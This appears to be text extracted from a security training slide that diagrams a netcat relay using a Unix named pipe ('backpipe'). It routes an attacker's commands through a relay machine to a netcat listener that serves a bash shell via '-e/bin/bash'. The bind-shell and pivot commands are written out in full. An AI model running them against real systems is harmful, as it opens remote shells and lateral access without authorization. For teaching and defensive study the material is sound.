

Netcat 2D Relay (Unix Backpipe Approach)
mknod backpipe p
nc –lp 11111 0<backpipe | nc next_hop 22222 1>backpipe

Attacker Types here
Shell responses here

Relay Machine
Standard Input
STDIN

Listener mode

nc –lp 22222
–e/bin/bash

Standard Output
STDOUT
Standard Input
STDIN

Client Mode
nc RELAY 11111

Standard Output
STDOUT
nc –lp 11111
nc next_hop 22222
backpipe

Attacker sees
response here
Shell gets
commands here